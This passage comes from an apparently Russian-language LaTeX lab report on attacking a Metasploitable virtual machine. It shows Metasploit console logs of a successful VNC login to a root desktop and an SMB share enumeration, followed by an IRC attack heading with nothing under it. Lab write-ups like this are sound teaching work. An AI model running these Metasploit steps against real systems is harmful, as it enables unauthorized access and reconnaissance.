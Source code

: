 \begin{lstlisting}
msf auxiliary(vnc_login) > vncviewer 10.0.0.1
[*] exec: vncviewer 10.0.0.1

Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password: 
Authentication successful
Desktop name "root's X desktop (metasploitable:0)"
\end{lstlisting}

\begin{figure}[H]
	\centering
	\includegraphics[width=\textwidth]{figures/1.png}
	\caption{Атака на VNC}
\end{figure}

\subsection{Атака на SMB}
SMB - протокол для обмена файлами в локальной сети.

\begin{lstlisting}
msf auxiliary(vnc_login) > use auxiliary/scanner/smb/smb_enumshares
msf auxiliary(smb_enumshares) > set RHOSTS 10.0.0.1
RHOSTS => 10.0.0.1
msf auxiliary(smb_enumshares) > exploit

[+] 10.0.0.1:139 - print$ - (DISK) Printer Drivers
[+] 10.0.0.1:139 - tmp - (DISK) oh noes!
[+] 10.0.0.1:139 - opt - (DISK) 
[+] 10.0.0.1:139 - IPC$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[+] 10.0.0.1:139 - ADMIN$ - (IPC) IPC Service (metasploitable server (Samba 3.0.20-Debian))
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{lstlisting}

\subsection{Атака на IRC}
IRC - протокол для групповых чатов.

